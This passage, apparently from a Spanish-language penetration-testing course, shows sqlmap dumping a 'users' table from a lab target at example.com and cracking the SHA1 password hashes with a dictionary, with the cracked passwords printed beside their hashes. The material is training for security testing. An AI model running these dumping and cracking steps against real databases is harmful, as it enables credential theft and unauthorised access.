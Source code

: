 ```
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+

```

---

# **Enumeración de contraseña y agrietamiento**

Una vez que identificamos una tabla que contiene contraseñas (por ejemplo,`master.users`), podemos recuperar esa tabla con el`-T`Opción, como se mostró anteriormente:

Enumeración avanzada de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'
Database: master
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
```